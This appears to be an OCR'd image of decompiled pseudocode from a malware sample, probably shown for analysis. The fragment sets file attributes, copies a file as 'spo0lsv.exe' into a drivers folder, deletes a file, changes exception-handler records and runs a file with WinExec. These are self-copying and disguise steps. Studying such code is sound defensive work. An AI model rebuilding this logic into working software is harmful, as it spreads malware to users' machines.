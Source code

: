 `     SetFileAttributesA(v36, v56);`

`     Sleep(1u);`

`     sub_4053AC(v57);`

`     sub_403F8C(v37, 3, "spo0lsv.exe", "drivers\\", uCmdShow);`

`     v38 = (const CHAR *)sub_4040CC();`

`     DeleteFileA(v38);`

`     v39 = ((int (*)(void))sub_403ECC)();`

`     sub_40416C(v84, v39 - v84);`

`     v40 = ((int (*)(void))sub_403ECC)();`

`     v41 = sub_403ECC(v40);`

`     sub_40416C(v55, v41);`

`     sub_403CDC(v42, v89);`

`     v55 = &savedregs;`

`     v54 = &loc_408730;`

`     v53 = __readfsdword(0);`

`     __writefsdword(0, (unsigned int)&v53);`

`     sub_4053AC(v53);`

`     sub_403F8C(v43, 3, "spo0lsv.exe", "drivers\\", v63);`

`     sub_402AD8(v44, v64, v56, v57, v58);`

`     byte_40E00C = 2;`

`     sub_402868();`

`     sub_402614();`

`     sub_404260(v45, v86);`

`     sub_402B88();`

`     sub_402614();`

`     sub_402C48();`

`     sub_402614();`

`     sub_4053AC(1);`

`     sub_403F8C(v46, 3, "spo0lsv.exe", "drivers\\", v62);`

`     v47 = (const CHAR *)sub_4040CC();`

`     WinExec(v47, v56);`

`     __writefsdword(0, v57);`

`   }`
